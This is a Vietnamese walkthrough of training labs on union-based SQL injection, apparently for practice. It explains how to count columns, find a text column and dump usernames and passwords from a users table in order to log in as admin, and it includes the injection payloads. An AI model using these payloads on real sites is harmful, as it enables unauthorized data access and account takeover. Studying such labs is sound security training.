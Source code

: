 Bài lab này giới thiệu kiểu tấn công Union-based SQLi, và nhiệm vụ của chúng ta là xác định số cột trong bảng (chức năng có lỗ hổng là `category filter`)

Vẫn như bài đầu, câu truy vấn của chức năng này lên database sẽ là
```sql!
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Để xác định số cột, ta sử dụng toán tử UNION để bảng này với bảng khác (ta sẽ tạo), toán tử này yêu cầu 2 bảng có cùng số cột, nên ta có thể nhờ đó xác định đúng kết quả.
```sql!
SELECT * FROM products WHERE category = 'Gifts' UNION SELECT NULL,NULL,NULL --' AND released = 1
```
Số chữ `NULL` của câu SELECT sau sẽ cho ta biết số cột, brute-force ta có được số cột là 3
Kết quả
>![](https://i.imgur.com/SEhKMzu.png)

<hr>

### Bài 4: SQL injection UNION attack, finding a column containing text
>![](https://i.imgur.com/NBkKKQU.png)

Theo mô tả của đề, trang web này chứa lỗ hổng SQL injection ở chức năng `category filter` và nhiệm vụ của ta là tìm cột có dữ liệu chuỗi

Đầu tiên, ta cần xác định số cột của bảng `products` bằng kĩ thuật như ở `Bài 3`. Xác định được bảng có 3 cột.
Tiếp theo để biết cột nào có kiểu dữ liệu CHAR, ta thử lần lượt như sau:
```sql!
' UNION SELECT 'a', NULL, NULL -- 
' UNION SELECT NULL, 'a', NULL --
' UNION SELECT NULL, NULL, 'a' --  
```
Và ta xác định được cột thứ 2 có kiểu dữ liệu chuỗi, kết quả khai thác thành công
>![](https://i.imgur.com/bzuS1hd.png)

<hr>

### Bài 5: SQL injection UNION attack, retrieving data from other tables
>![](https://i.imgur.com/y6T04ew.png)

Ở bài này, đề mô tả rằng chức năng `category filter` có lỗi SQL injection. Và mục tiêu của ta là đọc dữ liệu ở bảng `users` để lấy tài khoản admin và đăng nhập.
Cũng như các bài Union-based khác, đầu tiên ta xác định số cột, và kết quả là có 2 cột.
Ở mệnh đề thứ 2 của union, thay vì `select NULL, NULL` ta sửa lại thành
```sql!
SELECT username, password FROM users
```
Kết quả:
>![](https://i.imgur.com/axuf0Tm.png)

Đăng nhập với tài khoản này là ta có thể solve bài lab:
>![](https://i.imgur.com/jdhLaaz.png)
